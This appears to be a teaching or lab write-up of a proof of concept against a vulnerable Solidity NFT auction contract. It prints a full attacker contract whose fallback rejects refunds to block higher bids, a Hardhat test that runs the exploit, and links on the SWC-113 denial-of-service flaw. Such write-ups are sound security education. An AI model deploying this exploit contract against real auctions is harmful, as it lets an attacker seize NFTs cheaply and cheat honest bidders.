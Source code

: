 The **Auction.sol** smart contract allows any user in the Internet to bid for ERC721 NFT tokens during a period of 7 days, after which the highest bidder may collect it.
However it contains a design flaw that, when exploited, gives a malicious bidder the opportunity to walk away with the NFT for the lowest price.

The POC (proof of concept) consist of 2 files:

1. The malicious contract, `contracts/attack/AuctionAttack.sol`
```solidity
// SPDX-License-Identifier: unlicensed
pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "../vulnerable/Auction.sol";

contract AuctionAttack {
  address payable _owner;
  Auction _auctionContract;
  constructor (address _existingAuctionContractAddress) payable {
    _owner = payable(msg.sender);
    _auctionContract = Auction(_existingAuctionContractAddress);
  }

  function onERC721Received(address, address, uint256, bytes calldata) public pure returns(bytes4) {
    return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
  }

  modifier onlyOwner {
    require(_owner == msg.sender, "Only the owner may call");
    _;
  }

  fallback() external onlyOwner {
    // reject any refunds because the sender is not the attacker
  }

  function bid(uint256 _id) public onlyOwner {
    _auctionContract.bid{ value: 1.000001 ether }(_id);
  }

  function collect(uint256 _id) public onlyOwner {
    // this contract collects the NFT
    _auctionContract.collect(_id);
    // transfer the NFT to the attacker
    ERC721 nftContract = ERC721(_auctionContract.nftContract());
    nftContract.safeTransferFrom(address(this), _owner, _id);
    // disable this contract and return the remaining ETH to the attacker
    selfdestruct(_owner);
  }
}
```

2. The hardhat test
```javascript
    // POC can go here:
    tokenId++;
    console.log("\n EXPLOIT : \n");

    console.log("Mint a new NFT");
    tx = await auction.connect(minter).list({ value: parseEth("1", "ether") });
    await expect(tx).to.emit(auction, "ListedId").withArgs(tokenId, minter.address);
    console.log("The initial owner of NFT #", tokenId, "is", await mock721.ownerOf(tokenId));

    let balance = await attacker.provider.getBalance(attacker.address);
    balance = ethers.utils.formatUnits(balance, "ether");
    console.log("The attacker's initial balance is: ", balance, "ETH");
    console.log("Attacker address:", attacker.address, "deploys a corrupt contract with enough ETH to make a bid.");
    const AuctionAttack = await ethers.getContractFactory("AuctionAttack", attacker);
    const auctionAttack = await AuctionAttack.deploy(auction.address, { value: parseEth("1.5", "ether") });

    console.log("The attacker's contract makes the lowest bid.");
    tx = await auctionAttack.bid(tokenId);

    console.log("bidder1's high bid is expected to fail.");
    await expect(auction.connect(bidder1).bid(tokenId, { value: parseEth("2", "ether") })).to.be.reverted;

    console.log("bidder2's higher bid also fails.");    
    await expect(auction.connect(bidder2).bid(tokenId, { value: parseEth("3", "ether") })).to.be.reverted;

    console.log("Fast forward 7 days, it is NFT collection time!"); 
    // fast forward blockchain time by 7 days
    await ethers.provider.send("evm_mine", [(await blockchainNow()) + 804800]); 
    tx = await auctionAttack.collect(tokenId);
    await expect(tx).to.emit(auction, "TransferId").withArgs(tokenId, minter.address, auctionAttack.address);

    console.log("Now the NFT owner is ", await mock721.ownerOf(tokenId));

    balance = await attacker.provider.getBalance(attacker.address);
    balance = ethers.utils.formatUnits(balance, "ether");
    console.log("The attacker's final balance is: ", balance);
}
```

![Exploiting Auction.sol](https://cdn.glitch.global/67410202-16c0-4d12-bc48-1a6e6eaae69e/AuctionAttack.jpg)


For further reading about this type of vulnerability:
https://swcregistry.io/docs/SWC-113
https://consensys.github.io/smart-contract-best-practices/attacks/denial-of-service/#dos-with-unexpected-revert

